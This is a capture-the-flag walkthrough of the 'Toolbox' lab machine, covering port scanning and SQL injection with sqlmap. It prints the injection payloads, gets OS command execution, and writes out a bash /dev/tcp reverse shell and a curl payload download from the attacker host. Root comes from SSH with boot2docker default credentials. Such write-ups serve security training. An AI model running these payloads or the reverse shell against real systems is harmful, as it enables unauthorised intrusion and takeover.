


---
search:
  exclude: true
---
# Toolbox Writeup

## Introduction :

Toolbox is an easy Windows box released back in March 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → nmap -vvv -p- 10.10.10.236 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 21/tcp on 10.10.10.236
    Discovered open port 443/tcp on 10.10.10.236
    Discovered open port 135/tcp on 10.10.10.236
    Discovered open port 22/tcp on 10.10.10.236
    Discovered open port 139/tcp on 10.10.10.236
    Discovered open port 445/tcp on 10.10.10.236
    Discovered open port 47001/tcp on 10.10.10.236
    Discovered open port 5985/tcp on 10.10.10.236
    Discovered open port 49668/tcp on 10.10.10.236
    Discovered open port 49666/tcp on 10.10.10.236
    Discovered open port 49667/tcp on 10.10.10.236
    Discovered open port 49665/tcp on 10.10.10.236
    Discovered open port 49669/tcp on 10.10.10.236
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → nmap -sCV -p 21,22,135,139,445,443 10.10.10.236
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:43 CEST
    Nmap scan report for 10.10.10.236
    Host is up (0.027s latency).
    
    PORT    STATE SERVICE       VERSION
    21/tcp  open  ftp           FileZilla ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
    | ftp-syst:
    |_  SYST: UNIX emulated by FileZilla
    22/tcp  open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
    | ssh-hostkey:
    |   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
    |   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
    |_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
    135/tcp open  msrpc         Microsoft Windows RPC
    139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    443/tcp open  ssl/http      Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: MegaLogistics
    | ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
    | Not valid before: 2020-02-18T17:45:56
    |_Not valid after:  2021-02-17T17:45:56
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp open  microsoft-ds?
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 7m50s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-06-07T15:51:45
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 21.46 seconds
    
    

## **Part 2 : Getting User Access**

Now our nmap scan picked up port 443 so let's visit it:

Our nmap scan also picked up the **admin.megalogistic.com** domain name from the self-signed SSL certificate, so let's add it to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.236 admin.megalogistic.com' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping admin.megalogistic.com -c1
    PING admin.megalogistic.com (10.10.10.236) 56(84) bytes of data.
    64 bytes from admin.megalogistic.com (10.10.10.236): icmp_seq=1 ttl=127 time=129 ms
    
    --- admin.megalogistic.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 129.228/129.228/129.228/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    →
    
    

Now before we check out the domain name let's also take a look at the FileZilla FTP server that our nmap scan picked up: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → ftp 10.10.10.236
    Connected to 10.10.10.236.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    Name (10.10.10.236:nothing): anonymous
    331 Password required for anonymous
    Password:
    230 Logged on
    Remote system type is UNIX.
    ftp> ls
    200 Port command successful
    150 Opening data channel for directory listing of "/"
    -r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
    226 Successfully transferred "/"
    ftp>
    

As expected there is anonymous login allowed. And here we find a docker-toolbox executable file, so we are hinted towards the fact that this box is running docker containers. Now back to the domain name we just added:

Here we see that we get an admin login page, and we see that guessing the password isn't going to work, so we try out basic SQL injections, to do so we use burpsuite to get the POST request:

Here just right click, copy to file and you get the following:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/45 ] [~/HTB/Toolbox]
    → ls -lash login.req
    4.0K -rw-r--r-- 1 nothing nothing 561 Jun  7 18:28 login.req
    
    [ 10.10.14.13/23 ] [ /dev/pts/45 ] [~/HTB/Toolbox]
    → cat login.req
    POST / HTTP/1.1
    Host: admin.megalogistic.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    Origin: https://admin.megalogistic.com
    Connection: close
    Referer: https://admin.megalogistic.com/
    Cookie: PHPSESSID=5f60c9a2d0777eada696244e34c22bc5
    Upgrade-Insecure-Requests: 1
    
    username=admin&password;=admin
    
    

Let's use sqlmap to enumerate for potential SQL injections:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → sqlmap -r login.req --risk=3 --level=3 --batch --force-ssl
            ___
           __H__
     ___ ___["]_____ ___ ___  {1.5.5#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [']_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 18:30:23 /2021-06-07/
    
    [18:30:23] [INFO] parsing HTTP request from 'login.req'
    [18:30:24] [INFO] testing connection to the target URL
    [18:30:24] [INFO] testing if the target URL content is stable
    [18:30:24] [INFO] target URL content is stable
    [18:30:24] [INFO] testing if POST parameter 'username' is dynamic
    [18:30:25] [WARNING] POST parameter 'username' does not appear to be dynamic
    [18:30:25] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'PostgreSQL')
    [18:30:25] [INFO] testing for SQL injection on POST parameter 'username'
    it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (3) value? [Y/n] Y
    [18:30:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    got a 302 redirect to 'https://admin.megalogistic.com:443/dashboard.php'. Do you want to follow? [Y/n] Y
    redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
    [18:30:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [18:30:36] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=302)
    [18:30:36] [INFO] testing 'Generic inline queries'
    [18:30:37] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
    [18:30:37] [INFO] POST parameter 'username' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable
    [18:30:37] [INFO] testing 'PostgreSQL inline queries'
    [18:30:37] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
    [18:30:48] [INFO] POST parameter 'username' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable
    [18:30:48] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
    [18:30:59] [INFO] POST parameter 'username' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable
    [18:30:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [18:30:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [18:31:04] [INFO] target URL appears to be UNION injectable with 2 columns
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
    [18:31:08] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
    [18:31:08] [INFO] testing 'Generic UNION query (51) - 21 to 40 columns'
    [18:31:12] [INFO] testing 'Generic UNION query (51) - 41 to 60 columns'
    [18:31:17] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 135 HTTP(s) requests:
    ---
    **Parameter: username (POST)**
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        **Payload: username=-9325' OR 5396=5396-- MhIJ &password;=admin**
    
        Type: error-based
        Title: PostgreSQL AND error-based - WHERE or HAVING clause
        Payload: username=admin' AND 8746=CAST((CHR(113)||CHR(122)||CHR(98)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (8746=8746) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(113)||CHR(113)||CHR(98)||CHR(113)) AS NUMERIC)-- IKYc&password;=admin
    
        Type: stacked queries
        Title: PostgreSQL > 8.1 stacked queries (comment)
        Payload: username=admin';SELECT PG_SLEEP(5)--&password;=admin
    
        Type: time-based blind
        Title: PostgreSQL > 8.1 AND time-based blind
        Payload: username=admin' AND 2290=(SELECT 2290 FROM PG_SLEEP(5))-- sWjK&password;=admin
    ---
    [18:31:17] [INFO] the back-end DBMS is PostgreSQL
    web server operating system: Linux Debian 10 (buster)
    web application technology: PHP 7.3.14, Apache 2.4.38
    back-end DBMS: PostgreSQL
    [18:31:19] [INFO] fetched data logged to text files under '/home/nothing/.local/share/sqlmap/output/admin.megalogistic.com'
    
    [*] ending @ 18:31:19 /2021-06-07/
    
    

Here we see that sqlmap managed to pickup that this was a PostgreSQL database, let's see if we can spawn a shell:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Toolbox]
    → sqlmap -r login.req --risk=3 --level=3 --batch --force-ssl --os-shell
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.5.5#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [']_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 18:35:16 /2021-06-07/
    
    [18:35:16] [INFO] parsing HTTP request from 'login.req'
    [18:35:16] [INFO] resuming back-end DBMS 'postgresql'
    [18:35:16] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        Payload: username=-9325' OR 5396=5396-- MhIJ&password;=admin
    
        Type: error-based
        Title: PostgreSQL AND error-based - WHERE or HAVING clause
        Payload: username=admin' AND 8746=CAST((CHR(113)||CHR(122)||CHR(98)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (8746=8746) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(113)||CHR(113)||CHR(98)||CHR(113)) AS NUMERIC)-- IKYc&password;=admin
    
        Type: stacked queries
        Title: PostgreSQL > 8.1 stacked queries (comment)
        Payload: username=admin';SELECT PG_SLEEP(5)--&password;=admin
    
        Type: time-based blind
        Title: PostgreSQL > 8.1 AND time-based blind
        Payload: username=admin' AND 2290=(SELECT 2290 FROM PG_SLEEP(5))-- sWjK&password;=admin
    ---
    [18:35:16] [INFO] the back-end DBMS is PostgreSQL
    web server operating system: Linux Debian 10 (buster)
    web application technology: PHP 7.3.14, Apache 2.4.38
    back-end DBMS: PostgreSQL
    [18:35:16] [INFO] fingerprinting the back-end DBMS operating system
    [18:35:17] [INFO] the back-end DBMS operating system is Linux
    [18:35:18] [INFO] testing if current user is DBA
    [18:35:18] [INFO] retrieved: '1'
    [18:35:19] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
    [18:35:19] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
    
    os-shell> id
    do you want to retrieve the command standard output? [Y/n/a] Y
    [18:35:45] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
    
    os-shell> which bash
    do you want to retrieve the command standard output? [Y/n/a] Y
    [18:39:18] [INFO] retrieved: '/bin/bash'
    
    

And we can! Now that we can execute system commands as the postgres user let's get a bash reverse shell:
    
    
    [term1]
    
    os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.13/9001 0>&1'
    do you want to retrieve the command standard output? [Y/n/a] Y
    
    
    [term2]
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Toolbox]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.236] 50037
    bash: cannot set terminal process group (934): Inappropriate ioctl for device
    bash: no job control in this shell
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ id
    id
    uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)
    
    

Now from let's get the user flag:
    
    
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ls ~
    ls ~
    11
    user.txt
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ cat ~/user.txt
    cat ~/user.txt
    f0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX  flag.txt
    
    

And that's it ! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now before we move on let's first upgrade our reverse shell to a fully interactive TTY:
    
    
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ which python python3 bash
    which python python3 bash
    /usr/bin/python3
    /bin/bash
    
    #spawn a TTY with python3
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    #background the reverse shell (CTRL+Z)
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ^Z
    [1]  + 4044233 suspended  nc -lvnp 9001
    
    #set stty raw -echo and then fg the reverse shell once again
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Toolbox]
    → stty raw -echo ; fg
    [1]  + 4044233 continued  nc -lvnp 9001
    
    #export the TERM and SHELL variables
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ export TERM=screen-256color
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ export SHELL=bash
    
    #set the TTY rows 
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ stty rows 40 columns 125
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ reset
    
    

Let's get linpeas.sh onto the box to enumerate it:
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Toolbox]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Toolbox]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    [term2]
    
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ curl http://10.10.14.13:9090/linpeas.sh > /tmp/peas.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  333k  100  333k    0     0  1694k      0 --:--:-- --:--:-- --:--:-- 1694k
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ chmod +x /tmp/peas.sh
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ /tmp/peas.sh
    

` 

Scrolling through the output of linpeas we see the following: 

We're on a boot2docker debian container, and scrolling further we see the following:

And here we see that the ip on the eth0 interface is 172.17.0.2. The previous hint Boot2Docker, is a distribution on VirtualBox, and the default credentials are **docker/tcuser** , we can guess that the docker host is at the **172.17.0.1** IP address. 

Warning, you will have to redo your reverse shell because the container is unstable:
    
    
    bash: [1078: 2 (255)] tcsetattr: Inappropriate ioctl for device
                                                                   postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
                                                                                                                      postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    

So let's spawn our reverse shell once more:
    
    
    [term1]
    
    os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.13/9001 0>&1'
    
    
    [term2]
    
    [ 10.10.14.13/23 ] [ /dev/pts/49 ] [~/HTB/Toolbox]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.236] 50075
    bash: cannot set terminal process group (2876): Inappropriate ioctl for device
    bash: no job control in this shell
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
    ssh docker@172.17.0.1
    docker@172.17.0.1's password: tcuser
    
       ( '>')
      /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
     (/-_--_-\)           www.tinycorelinux.net
    
    docker@box:~$ id
    id
    uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)
    
    

And as expected we have been able to access the docker host with the default credentials! Now let's see if we can access the **C:\Users** folder mounted at **/c/Users**.
    
    
    docker@box:~$ cd /c/Users
    cd /c/Users
    
    docker@box:/c/Users$ ls
    ls
    Administrator  Default        Public         desktop.ini
    All Users      Default User   Tony
    
    docker@box:/c/Users$ cd Administrator
    cd Administrator
    
    docker@box:/c/Users/Administrator$ cd Desktop
    cd Desktop
    
    docker@box:/c/Users/Administrator/Desktop$ ls
    ls
    desktop.ini  root.txt
    
    docker@box:/c/Users/Administrator/Desktop$ cat root.txt
    cat root.txt
    ccXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

